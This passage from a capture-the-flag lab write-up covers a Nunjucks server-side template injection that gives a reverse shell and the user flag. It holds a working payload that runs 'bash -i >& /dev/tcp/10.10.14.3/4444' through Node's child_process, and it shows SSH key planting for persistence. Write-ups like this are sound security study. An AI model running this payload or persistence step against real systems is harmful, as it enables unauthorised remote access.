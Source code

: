 ```http
Connection: close

{"email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.14.3/4444 0>&1\\\"')\")()}}{% endraw %}"}
```

It gave me a reverse shell on the server, and the first flag.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.95.252 53838
bash: cannot set terminal process group (1046): Inappropriate ioctl for device
bash: no job control in this shell

david@nunchucks:/var/www/store.nunchucks$ whoami
whoami
david

david@nunchucks:/var/www/store.nunchucks$ cd
cd

david@nunchucks:~$ ls
ls
user.txt

david@nunchucks:~$ cat user.txt
cat user.txt
REDACTED
```

## Getting root

Before I started to look for privilege escalation, I copied my ssh public key to the server so I could connect with ssh instead of the fragile reverse shell. 

```bash
david@nunchucks:~$ mkdir .ssh
mkdir .ssh

david@nunchucks:~$ chmod 700 .ssh
chmod 700 .ssh

david@nunchucks:~$ echo "Public Key" > .ssh/authorized_keys
echo "Public Key" > .ssh/authorized_keys

david@nunchucks:~$ chmod 600 .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

```bash
$ ssh david@target
The authenticity of host 'target (10.129.95.252)' can't be established.
ED25519 key fingerprint is SHA256:myGaq8Z7cJOnk/xs1adJsRnqq68uVwnXkj+1KOxXEMI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 19 Apr 22:31:23 UTC 2022

  System load:             0.0
```